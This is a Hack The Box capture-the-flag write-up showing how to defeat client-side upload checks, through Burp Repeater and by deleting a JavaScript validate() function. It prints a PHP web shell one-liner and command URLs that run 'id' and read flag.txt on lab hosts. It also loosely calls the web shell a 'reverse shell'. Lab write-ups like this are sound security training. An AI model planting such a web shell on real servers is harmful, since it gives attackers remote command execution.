# HTB - Bypassing Client-Side Validation for File Upload Attacks | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Web / File Upload &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `154.57.164.67:30313` (second run: `154.57.164.82:32608`) &nbsp;•&nbsp; **Time taken:** 25 mins
>
> **Author:** Jithin Jelson

---

## Introduction

This lab tells us that there is a file upload vulnerability at the given IP address. However, a few client side validations have been put in place to prevent file upload attacks. We will try and retrieve the flags using two different ways of client side bypassing.

---

## Assessment Overview

 



---

## What I Learned

- How to identify a file upload point that relies only on client side validation.
- Bypassing an allow-list by intercepting the upload in Burp Suite and swapping a legitimate image for a PHP payload in Repeater.
- Reading the front end source code to spot the JavaScript `validate()` function enforcing the image-only check.
- Removing or disabling the client side `validate()` function straight from the browser so the PHP file uploads without Burp.
- Using a simple `<?php system($_GET['cmd']); ?>` web shell to run commands and read the flag through the cmd parameter.
- That client side validation is trivial to bypass because it never reaches the server, so file type checks must always be enforced server side.

---

## Enumerating the Upload Page

Firstly, we can boot up our target IP address.



*Figure 1 - The target's "Update your profile image" upload page.*

We can see here that when we now try to upload a php file, we can see the only allowed filetypes are image formats.



*Figure 2 - The file picker only offers .jpg, .jpeg and .png as supported types.*

---

## Method 1 - Bypassing Validation with Burp Suite

We will first try to bypass this using Burp Suite so we can boot it up. Now we can upload a legitimate image and try to catch the POST request.



*Figure 3 - Uploading a legitimate image and catching the POST request to upload.php in Burp.*

We have caught our POST request, we can send it to Repeater to see if we can exploit this further. In the Repeater we can see the filetype, the name, and the content associated with our file. Since we can't upload our own file we can modify our file to have a reverse shell.

```php
<?php system($_GET['cmd']); ?>
```



*Figure 4 - Changing the filename to shell.php and replacing the image content with a PHP web shell.*

Now we can send this request to see if we get any response. We can now see that our php upload was successful.



*Figure 5 - The server responds with 200 OK and "File successfully uploaded".*

Now if we visit the following URL we can interact with the web server terminal. Now if we add cmd to the parameter followed by the system command we want to execute. We get a web shell.

```
http://154.57.164.67:30313/profile_images/shell.php?cmd=id
```

---

## Method 2 - Bypassing Validation from the Front End Source

Now the other way of exploitation is by interacting with the front end source code itself. First we can create our web shell.

```php
<?php system($_GET['cmd']); ?>
```



*Figure 6 - Creating the shell.php web shell in nano.*

Now we will try and look closely to see how we can upload this directly on the website without Burp. We can see when we tried to upload the php it says only images are allowed.



*Figure 7 - Uploading the PHP directly is blocked with "Only images are allowed!".*

However upon closer inspection of the source code we see a function.



*Figure 8 - Inspecting the page source reveals the upload form and its handlers.*

We can see the only accepted file formats and we can see a function that says validate. We can open up console and see what exactly this function is by entering validate.



*Figure 9 - The form calls `if(validate()){upload()}` on submit and accepts only .jpg, .jpeg and .png.*



*Figure 10 - The validate() function checks the file extension against jpg, jpeg and png on the client side.*

We can see that validation is taking place, so we can delete this, or the accept .jpg .jpeg that we saw earlier, and proceed to upload our php script. If we remove this validate parameter we can now upload our script and get our reverse shell.



*Figure 11 - With validation removed the PHP uploads, and shell.php?cmd=id returns uid=33(www-data), confirming RCE.*

---

## Retrieving the Flag

Our final flag is situated at the web shell by reading flag.txt through the cmd parameter.

```
http://154.57.164.82:32608/profile_images/shell.php?cmd=cat+../../../../flag.txt
```

> **Task:** Retrieve the flag from the target.
>
> **Answer:** `see Figure 11` (RCE achieved as www-data; flag read with the command above)
